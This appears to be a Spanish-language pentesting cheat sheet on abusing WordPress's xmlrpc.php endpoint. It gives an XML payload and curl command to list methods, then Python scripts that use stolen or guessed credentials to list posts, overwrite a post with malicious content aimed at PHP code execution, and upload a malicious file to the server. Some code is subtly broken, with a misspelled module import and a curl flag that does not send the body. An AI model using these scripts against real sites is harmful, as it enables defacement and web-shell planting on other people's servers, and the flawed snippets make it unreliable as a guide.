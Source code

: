 # XMLRPC.php 

El **xmlrpc.php** en Wordpress es un archivo cxon extensión .php que permite realizar tareas remotas por el método conocido como POST en programación, como por ejemplo, publicar o editar artículos o entradas. 

-----
# Abuso de xmlrcp.php

Cuando nos referimos a abusar del **xmlrpc.php** hacemos alución al uso que podríamos llegar a obtener gracias a este archivo. 

-----
## Listar métodos disponibles 

Si envíamos como data en una solicitud por POST el siguiente payload (Obtenido de la web oficial de [wordpress](https://codex.wordpress.org/XML-RPC/system.listMethods))

```xml
<methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
</methodCall>
```

Con herramientas como curl, podríamos ver en la respuesta del servidor un listado de los metodos que podemos usar para abusar de estos como la enumeración de usuarios, la edición de posts, etc. 

```bash
curl -s -X POST {url} -s '<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>'
```

------
## Obtener los POSTS de la página

Para poder obtener los posts de la página y a la par verificar que las credenciales que tenemos que tener sean válidas, podríamos intentar obtener los posts de la web. Para esto podemos hacer uso del modulo **python-wordpress-xmlrpc** para con python hacer uso de un script y obtener los valores que necesitemos.

```bash
pip3 install python-wordpress-xmlrpc
```

 De esta manera podríamos hacer uso de este modulo para crear un script en python y obtener valores

```python
from wordpress_xmlrpc import Client 
from wordpress_xmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
```

De esta manera en la variable *post* ahora tendríamos todos los posts publicados. 

```bash
post # Listar los posts
dir(post[0]) # Listar los attributos del primer post 

# Listar atributos
post[0].link
post[0].id
```

------
## Editar POSTS de la página

Una vez que tengamos los posts en la página, tal vez exista una vía potencial para cambiar un codigo que se ejecuta en php u otras funcionalidades. 

```python
from wordpress_xmlrpc import Client 
from wordpress_cmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
 
malicious_post = post[0] # Podríamos quedarnos con el post que querramos editar
malicious_content = "{new_malicious_content}" 
malicious_post.content = malicious_content

client.call(posts.EditPost(malicious_post.id, malicious_post)) # A esta función se le debe pasar el identificador del post a modificar y el nuevo post modificado
```

De esta manera tal vez exista un post en la página el cual ejecute una función en php y haciendo uso de esto podríamos intentar cambiar esto para inyectar nuestros comandos maliciosos. 

---------
## Subir archivos maliciosos

Otra cosa que podríamos intentar hacer es subir archivos maliciosos al sistema, de esta manera podríamos desplegar en una ruta de la web nuestro propio script malicioso.

```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import media 
client = Client('{url_xmlrpc.php}', '{username}', '{password}')

with open("{mcalicious_file_to_upload}", "r") as f:
	filename = f.read()

post_file = {'name':'{filename}','bits':filename,'type':'{content-type}'}

client.call(media.UploadFile(post_file))
```

De esta manera, si la web esta desplegada bajo la ruta **/var/www/html** en caso de que la subida del archivo sea exitosa, nos arrojara información como el path donde estará alojado este archivo. 

